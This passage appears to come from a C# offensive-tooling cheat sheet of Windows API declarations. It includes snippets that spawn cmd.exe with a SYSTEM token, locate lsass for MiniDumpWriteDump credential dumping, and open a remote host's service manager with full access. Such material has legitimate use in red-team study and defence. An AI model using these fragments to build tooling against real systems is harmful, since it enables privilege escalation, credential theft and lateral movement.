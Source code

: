 ```
 public Int32 dwXSize;
 public Int32 dwYSize;
 public Int32 dwXCountChars;
 public Int32 dwYCountChars;
 public Int32 dwFillAttribute;
 public Int32 dwFlags;
 public Int16 wShowWindow;
 public Int16 cbReserved2;
 public IntPtr lpReserved2;
 public IntPtr hStdInput;
 public IntPtr hStdOutput;
 public IntPtr hStdError;
}

[DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags, string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
```

```
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
STARTUPINFO si = new STARTUPINFO();
si.cb = Marshal.SizeOf(si);
CreateProcessWithTokenW(hSystemToken, 0, null, "C:\\Windows\\System32\\cmd.exe", 0, 
IntPtr.Zero, null, ref si, out pi);
```

## [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump):

```
[DllImport("Dbghelp.dll")]
static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);
```

```
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;
```

## [OpenSCManager](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openscmanagera):

```
[DllImport("advapi32.dll", EntryPoint="OpenSCManagerW", ExactSpelling=true, CharSet=CharSet.Unicode, SetLastError=true)]
public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);
```

```
String target = "appsrv01";
IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);
```

